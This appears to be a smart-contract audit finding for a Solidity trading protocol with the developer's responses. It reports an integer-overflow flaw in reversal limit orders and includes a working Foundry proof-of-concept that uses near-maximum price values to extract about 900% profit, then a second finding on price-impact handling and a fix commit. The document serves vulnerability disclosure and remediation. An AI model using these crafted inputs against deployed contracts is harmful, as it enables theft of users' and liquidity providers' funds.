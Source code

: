 # Trading (Callbacks) Contracts

## We're continuing working though the Trading contract going through all of the different order flows and have found the following

### When opening a buy reversal limit order it's possible to choose an arbitrary `openPrice` as the check in `contracts/src/core/v0/TradingCallbacks.sol#L561-L563` will set it to `maxPrice`. Using this, it's possible to abuse a large open price and large sl to cause `currentPercentProfit` to always return `maxPnlP` due to the `int256` casts overflowing. Eg an `openPrice` of `type(uint).max - 1` and `sl` of `type(uint).max - 2` will pass all the checks, and `currentPercentProfit` will end up being something like `((-3 - -2) * 100 * PRECISION * leverage) / -2`. A user can create the open limit order, execute it to open a trade, then close the trade for 900% profit

### Here is an example poc

```solidity
function testTradingSL() external {
    vm.startPrank(trader, trader);
    honey.approve(address(tradingStorage), type(uint).max);
    console.log("honey balance: %s", honey.balanceOf(trader));
    ITradingStorage.Trade memory t = ITradingStorage.Trade(
        trader,
        0,
        0,
        0,
        10000000000000000,
        0xfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe,
        true,
        100,
        0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff,
        0xfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffd
    );

    trading.openTrade(
        t,
        Trading.OpenLimitOrderType.REVERSAL,
        1
    );
    console.log("honey balance: %s", honey.balanceOf(trader));
    vm.roll(block.number + 3);
    trading.executeNftOrder(ITradingStorage.LimitOrder.OPEN, trader, 0, 0);
    console.log("honey balance: %s", honey.balanceOf(trader));
    vm.roll(block.number + 3);
    trading.executeNftOrder(ITradingStorage.LimitOrder.SL, trader, 0, 0);
    console.log("honey balance: %s", honey.balanceOf(trader));
}
```

### which outputs

```sh
Running 1 test for test/TestTrading.t.sol:TestTrading
[PASS] testTradingSL() (gas: 1995338)
Logs:
  honey balance: 50000000000000000
  honey balance: 40000000000000000
  honey balance: 40000000000000000
  honey balance: 133623999947296095
```

### The slippage and tp have to be setup to ensure other overflows dont happen, but using the above values it goes through successfully

Given that we don't use `REVERSAL` orders right now, I think it makes sense to simplify the system and remove support
for it. This will eliminate this price condition that causes the exploit and gives time to properly understand
`REVERSAL` orders.
[(fix-commit)](https://github.com/berachain/bts/pull/176/commits/2052c7d4405c0b772768f3f57d6e1324be9e5b5d#diff-8caa2050e3b85920b80aef952f8c34ac9276e1621d023f2ea904c0594b743659)

### [12-07-2023 Followup] In `TradingCallbacks.executeNftOpenOrderCallback()`, when registering a trade of type `OpenLimitOrderType.MOMENTUM`, it sets the trade's `openPrice` to `a.price`, which is the price returned by the aggregator. However, the potential issue we spotted is in lines 515-525, where the code figures out the price impact from opening a trade of this size at the current price (as returned by the aggregator), and then immediately modifies the aggregator's price to the `priceAfterImpact`

```solidity
(uint256 priceImpactP, uint256 priceAfterImpact) = pairInfos
    .getTradePriceImpact(
        marketExecutionPrice(
            a.price, a.spreadP, o.spreadReductionP, o.buy
        ),
     o.pairIndex,
     o.buy,
     o.positionSize * o.leverage
);

a.price = priceAfterImpact;
```

### This seems like it causes a small loss for users on every trade, as their trade's open price will always be higher (for longs) or lower (for shorts) than the actual price returned by the aggregator

### We haven't been able to do a concrete analysis on this to figure out what the correct fix should be, but we think it should set `o.maxPrice = o.minPrice = priceAfterImpact` instead, because when registering the trade, the actual open price is set to either `o.maxPrice` or `a.price` depending on whether it is a `REVERSAL` or `MOMENTUM` type limit order

```solidity
registerTrade(
    ITradingStorage.Trade(
        o.trader,
        o.pairIndex,
        0,
        0,
        o.positionSize,
        t == Trading.OpenLimitOrderType.REVERSAL
            ? o.maxPrice // o.minPrice = o.maxPrice in that case
            : a.price,
        o.buy,
        o.leverage,
        o.tp,
        o.sl
    )
);
```

I believe GNS had set it up this way (openPrice is always the priceAfterImpact with the dynamic spread) for safety, but
I will investigate this further before commenting more.
